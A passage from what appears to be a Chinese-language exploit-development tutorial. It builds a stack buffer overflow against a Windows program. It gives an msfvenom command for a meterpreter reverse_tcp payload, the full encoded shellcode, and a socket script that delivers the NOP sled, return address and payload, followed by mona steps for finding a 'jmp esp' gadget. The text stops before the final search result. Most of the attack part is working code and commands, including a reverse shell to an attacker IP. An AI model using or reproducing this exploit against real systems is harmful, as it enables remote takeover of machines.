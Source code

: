 但是我们还是没有考虑到所有不被允许的字节，这里通过将所有字节传输过去（可以挨个试，但是一般是一次性发送到255），最终发现0d这个字节也是不被允许的，所以最终我们生成的shellcode应该这么写：`msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.209.138 lport=666 -a x86 -f c --platform windows -b 00 0d`

但是单纯的python的shellcode格式是不行的，我们需要转换成10进制，并且整理，最终整理的结果：

`189,202,146,107,146,218,197,217,116,36,244,95,49,201,177,86,131,199,4,49,111,15,3,111,197,112,158,110,49,246,97,143,193,151,232,106,240,151,143,255,162,39,219,82,78,195,137,70,197,161,5,104,110,15,112,71,111,60,64,198,243,63,149,40,202,143,232,41,11,237,1,123,196,121,183,108,97,55,4,6,57,217,12,251,137,216,61,170,130,130,157,76,71,191,151,86,132,250,110,236,126,112,113,36,79,121,222,9,96,136,30,77,70,115,85,167,181,14,110,124,196,212,251,103,110,158,92,76,143,115,58,7,131,56,72,79,135,191,157,251,179,52,32,44,50,14,7,232,31,212,38,169,197,187,87,169,166,100,242,161,74,112,143,235,2,181,162,19,210,209,181,96,224,126,110,239,72,246,168,232,217,16,75,38,97,112,181,199,145,88,114,147,193,242,83,156,138,2,91,73,38,9,203,178,30,220,133,91,92,223,155,1,233,57,203,101,185,149,172,213,121,70,69,60,118,185,117,63,93,210,28,208,11,138,136,73,22,64,40,149,141,44,106,29,39,208,37,214,66,194,82,129,172,26,163,36,172,112,167,238,251,236,165,215,203,178,86,50,72,180,169,195,120,206,156,81,196,184,224,181,196,56,183,223,196,80,111,132,151,69,112,17,132,213,229,154,252,138,174,242,2,244,153,92,253,211,153,155,1,161,181,3,105,89,134,179,105,51,6,228,1,200,41,11,225,49,224,68,105,187,101,38,8,188,175,230,148,189,92,51,39,199,45,196,200,56,36,161,201,56,72,215,246,238,113,173,57,51,198,190,12,22,111,85,110,4,111,124`

```javascript
function main(args)
{
        s = CreateTCPSocket("192.168.209.130",8888);
        wb = TCPSocketRecv(s);
        print(wb);
        b = AddBytes(GetSomeBytes("144",16),GetBytes("227,65,75,95"));
        bt = AddBytes(b,GetSomeBytes("144",6));
        bw = AddBytes(bt,GetBytes("189,202,146,107,146,218,197,217,116,36,244,95,49,201,177,86,131,199,4,49,111,15,3,111,197,112,158,110,49,246,97,143,193,151,232,106,240,151,143,255,162,39,219,82,78,195,137,70,197,161,5,104,110,15,112,71,111,60,64,198,243,63,149,40,202,143,232,41,11,237,1,123,196,121,183,108,97,55,4,6,57,217,12,251,137,216,61,170,130,130,157,76,71,191,151,86,132,250,110,236,126,112,113,36,79,121,222,9,96,136,30,77,70,115,85,167,181,14,110,124,196,212,251,103,110,158,92,76,143,115,58,7,131,56,72,79,135,191,157,251,179,52,32,44,50,14,7,232,31,212,38,169,197,187,87,169,166,100,242,161,74,112,143,235,2,181,162,19,210,209,181,96,224,126,110,239,72,246,168,232,217,16,75,38,97,112,181,199,145,88,114,147,193,242,83,156,138,2,91,73,38,9,203,178,30,220,133,91,92,223,155,1,233,57,203,101,185,149,172,213,121,70,69,60,118,185,117,63,93,210,28,208,11,138,136,73,22,64,40,149,141,44,106,29,39,208,37,214,66,194,82,129,172,26,163,36,172,112,167,238,251,236,165,215,203,178,86,50,72,180,169,195,120,206,156,81,196,184,224,181,196,56,183,223,196,80,111,132,151,69,112,17,132,213,229,154,252,138,174,242,2,244,153,92,253,211,153,155,1,161,181,3,105,89,134,179,105,51,6,228,1,200,41,11,225,49,224,68,105,187,101,38,8,188,175,230,148,189,92,51,39,199,45,196,200,56,36,161,201,56,72,215,246,238,113,173,57,51,198,190,12,22,111,85,110,4,111,124"));
        TCPSocketSend(s,bw);
        wb = TCPSocketRecv(s);
        print(wb);
        CloseTCPSocket(s);
}
```



那么这个144是做什么的，其实就是怕不是第一个字符开始执行有点差错的话呢那么我们的程序就会终止，那么我们可以加几个NOP进行填充，这样保证我们的程序可以正确无误的执行。
我们大部分的工作完成了，但是还存在一个问题，那个OOOO到底要写成什么，我们肯定不能写成ESP的地址，那么怎么办？这个时候我们只能间接的进行实现了。
反正我们只要让EIP运行到ESP的位置，那么我们为什么不能找一个地址，这个地址存储的汇编代码是可以跳转到ESP的呢？
例如：`jmp esp`,`ret`,`jnz/jz/je/jne esp`，寻找这个样子的代码，第一个明显是最简单的，第二个的话呢我们还是需要构造一下，好让他能返回到ESP，第三个的话呢我们还需要考虑标志寄存器的一个问题（其实还有好多，这里我就举了这几个）。
所以我们现在就要找一个这个程序里面哪个地方存在`jmp esp`这条语句，我们只需要将OOOO设置为这个地址，然后EIP运行到这里的时候，然后他就会跳转到ESP。
我们首先要确定我们找到的这个地址他是不会改变的地址（ASLR），第二就是这个地址里面不能存在00，第三就是这个地址没有被SEH链保护，第四还要这个地址要是系统的DLL。
确定这一点之后，我们就要来查一下，这个DBG有个mona插件，可以网上下载，他支持查看：`!mona modules`:
![](https://bbs.ichunqiu.com/data/attachment/album/202103/06/010632he6vv6ewlk9aq6vk.jpg)
OD也有类似的插件。
我们尽量保证除了OS DLL这个选项是true，其他的选项都是FALSE，我们最终发现了`SLMFC.dll`，那么我们就在这个DLL中寻找`jmp esp`。
其实如果主程序的地址不是00开头的话呢应该也是可以用的，但是很可惜一般不太可能。
那么我们来寻找一下，使用命令：`!mona find -s "\xff\xe4" -m "SLMFC.dll"`
最后得到：